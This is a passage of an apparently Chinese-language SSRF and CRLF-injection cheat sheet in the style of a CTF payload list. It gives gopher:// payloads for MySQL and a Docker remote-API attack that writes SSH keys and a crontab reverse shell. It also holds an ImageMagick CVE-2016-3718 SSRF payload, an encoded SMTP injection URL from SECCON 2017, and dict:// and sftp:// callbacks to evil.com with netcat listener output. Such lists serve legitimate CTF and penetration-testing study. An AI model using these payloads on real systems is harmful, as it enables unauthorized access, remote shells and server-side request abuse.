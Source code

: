         - MySQL Client与Server交互主要分两阶段
            - Connection Phase
            - Command Phase
        - `gopher://127.0.0.1:3306/_<PAYLOAD>`

    - Docker 
        - Remote api未授权访问
            - 开一个container，挂载/root/，写ssh key
            - 写crontab弹shell

    - ImageMagick - CVE-2016-3718
        - 可以发送HTTP或FTP request
        - payload: ssrf.mvg
        ```
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(http://example.com/)'
        pop graphic-context
        ```
        - `$ convert ssrf.mvg out.png`
    

## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint

- dict
```
dict://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5566 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
- sftp
```
sftp://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
SSH-2.0-libssh2_1.4.2

-> ssh version
```

